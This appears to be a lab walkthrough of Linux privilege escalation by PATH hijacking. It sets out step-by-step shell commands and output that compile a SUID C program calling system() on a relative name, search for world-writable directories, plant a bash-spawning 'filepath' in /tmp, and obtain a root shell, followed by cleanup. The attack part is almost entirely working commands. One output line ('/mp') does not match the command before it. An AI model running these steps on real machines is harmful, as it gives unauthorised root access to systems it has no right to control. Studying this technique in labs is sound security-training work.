 # Unix Shell

## 01 - Detect

```
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

We will compile a shell to further elevate to root privileges from the compromised Linux machine with least privileges.

```
$ cat path.c
#include <unistd.h>
void main() {
    setuid(0);
    setgid(0);
    system("filepath");
}
$ sudo gcc -o path path.c -w
$ sudo chmod u+s path
$ ls -lh
-rwsr-xr-x 1 root root 16K Jan 20 19:04 path
-rw-r--r-- 1 user user  81 Jan 20 18:43 path.c

$ find / writable 2>/dev/null | cut -d "/" -f 2 | sort -u

bin
boot
.cache
dev
etc
home
initrd.img
initrd.img.old
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

Unfortunately nothing is writable that starts with usr since most of them are root

```
$ find / -writable 2>/dev/null | grep usr | cut -d "/" -f 1,2,3 | sort -u
/usr/lib
```

Let's try looking for other world writable directories

```
$ find / -writable 2>/dev/null | cut -d "/" -f 1,2,3 | grep -v proc | sort -u
/dev/block
/dev/cdrom
/dev/char
/dev/disk
/dev/dri
/dev/fb0
/dev/fd
/dev/full
/dev/fuse
/dev/log
/dev/mqueue
/dev/net
/dev/null
/dev/ptmx
/dev/pts
/dev/random
/dev/shm
/dev/snd
/dev/sr0
/dev/stderr
/dev/stdin
/dev/stdout
/dev/tty
/dev/ttyS0
/dev/ttyS1
/dev/ttyS2
/dev/ttyS3
/dev/urandom
/dev/vfio
/dev/zero
/etc/systemd
/home/user
/run/dbus
/run/lock
/run/screen
/run/shm
/run/systemd
/run/udev
/run/user
/sys/fs
/sys/kernel
/tmp
/usr/lib
/var/lib
/var/lock
/var/spool
/var/tmp
```

Looks the `/home/user`, `/tmp`, and `/dev/shm` directory are the best locations to insert our shell to exploit the **PATH**. We will copy the `/bin/bash` to rename it as `filepath`

## 02 - Exploit

```
$ export PATH=/tmp:$PATH
$ echo $PATH
/mp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ echo "/bin/bash" > /tmp/filepath
$ ls -lh /tmp/filepath
-rw-r--r-- 1 user user 10 Jan 20 19:41 /tmp/filepath
$ chmod 777 /tmp/filepath
```

Now we will execute the compiled binary to exploit the PATH variable and get root privileges

```
$ ./path
# whoami
root
```

## 03 - Cleanup

```
# exit
$ rm path path.c /tmp/filepath
```